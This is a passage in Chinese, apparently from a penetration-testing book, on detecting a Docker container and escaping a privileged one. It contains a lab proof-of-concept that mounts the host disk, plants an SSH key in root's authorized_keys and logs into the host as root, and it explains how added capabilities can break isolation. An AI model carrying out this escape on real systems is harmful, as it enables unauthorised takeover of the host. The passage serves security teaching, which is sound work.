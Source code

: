 
列表 6-6：列出*/proc*文件夹中 PID 为 1 的进程的属性

我们可以继续，但从 cgroup 名称和挂载点中提到 Docker 来看，我们显然已经被困在一个容器里。此外，在典型的现代 Linux 系统中，启动第一个进程的命令应该类似于*/sbin/init*或*/usr/lib/systemd*，而不是*/bin/sh*。

即使在容器内是 root 用户，仍然可以安装软件包并访问 root 保护的文件，但我们只能对属于我们狭窄且非常有限命名空间的资源行使这种权力。

进入容器后，第一个反应就是检查是否在特权模式下运行。

## 检查特权模式

在*特权执行模式*下，Docker 仅充当一个打包环境：它保持命名空间隔离，但允许广泛访问所有设备文件，如硬盘，以及所有 Linux 功能（更多内容请见下一节）。

因此，容器可以更改主机系统上的任何资源，如内核特性、硬盘、网络等。如果我们发现自己处于特权模式下，我们可以直接挂载主分区，在任意主目录中插入一个 SSH 密钥，并在主机上打开一个新的管理员 Shell。以下是在实验室中为说明目的展示的概念验证：

```
# Demo lab
root@DemoContainer:/# **ls /dev**
autofs           kmsg                ppp       tty10
bsg              lightnvm            psaux     tty11
`--snip--`
# tty devices are usually filtered out by cgroups, so we must be inside a privileged container

root@DemoContainer:/# **fdisk -l**
Disk /dev/dm-0: 23.3 GiB, 25044189184 bytes, 48914432 sectors
Units: sectors of 1 * 512 = 512 bytes
`--snip--`

# mount the host's main partition
root@DemoContainer:/# **mount /dev/dm-0 /mnt && ls /mnt**
bin   dev  home lib  lost+found  mnt  proc...

# inject our SSH key into the root home folder
root@DemoContainer:/# echo "ssh-rsa AAAAB3NzaC1yc2EA..." > /mnt/root/.ssh/authorized_keys

# get the host's IP and SSH into it
root@DemoContainer:/# **ssh root@172.17.0.1**

root@host:/#
```

你可能会认为没有人敢在特权模式下运行容器，特别是在生产环境中，但生活总是充满惊喜，有些人可能确实需要这样做。例如，某个开发者可能需要调整一个像 TCP 超时值这样的简单设置（一个内核选项）。为此，开发者自然会浏览 Docker 文档，并找到`sysctl` Docker 标志，它实际上是在容器内运行`sysctl`命令。然而，当执行该命令时，除非以特权模式调用，否则该命令当然无法更改内核的 TCP 超时选项。让容器进入特权模式是一个安全风险这一事实，甚至不会引起这个开发者的注意——`sysctl`可是 Docker 文档中正式支持的标志，天哪！

## Linux 功能

现在我们可以回到我们的调查应用程序，检查我们是否能轻松突破命名空间隔离。我们列出了 */dev* 文件夹的内容，但结果缺少了所有经典的伪设备文件，如 *tty*、*sda* 和 *mem*，这些文件通常暗示着特权模式。一些管理员用一系列个体权限或能力来替代特权模式。可以把 *能力* 看作是对传统上归属于 Linux 上万能 root 用户的权限的精细化分解。拥有 `CAP_NET_ADMIN` 能力的用户可以在网络堆栈上执行 root 操作，例如更改 IP 地址、绑定低端端口以及进入混杂模式嗅探流量。然而，该用户将无法挂载文件系统，例如。那项操作需要 `CAP_SYS_ADMIN` 能力。

当容器所有者通过 `--add-cap` 标志指示时，Docker 可以向容器附加额外的能力。这些强大的能力中的一些可以用来突破命名空间隔离，访问其他容器，甚至通过嗅探路由到其他容器的包、加载在主机上执行代码的内核模块或挂载其他容器的文件系统来危及主机。
